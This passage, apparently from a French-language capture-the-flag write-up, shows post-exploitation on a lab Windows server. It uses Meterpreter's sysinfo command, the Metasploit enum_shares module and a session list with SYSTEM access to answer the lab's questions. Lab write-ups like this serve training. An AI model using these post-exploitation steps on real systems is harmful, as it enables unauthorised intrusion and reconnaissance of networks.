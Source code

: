 Une fois la session Meterpreter obtenue, j'ai utilisé la commande `sysinfo` pour obtenir les informations système :

```bash
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
```

**Réponse :** `ACME-TEST`

---

**Question 2 : What is the target domain?**

Cette information est également visible dans la sortie de la commande `sysinfo` ci-dessus.

**Réponse :** `FLASH`

---

**Question 3 : What is the name of the share likely created by the user?**

Pour énumérer les partages réseau, j'ai mis la session Meterpreter en arrière-plan et utilisé un module de post-exploitation :

```bash
meterpreter > background
msf6 > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > show options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate recently entered UNC Paths in the Run Dialog
   RECENT   true             yes       Enumerate recently mapped shares
   SESSION                   yes       The session to run this module on
```

**Vérification des sessions actives :**

```bash
msf6 post(windows/gather/enum_shares) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-TE  10.10.154.251:4444 -> 10.10.19.109:52648
                                     ST
```
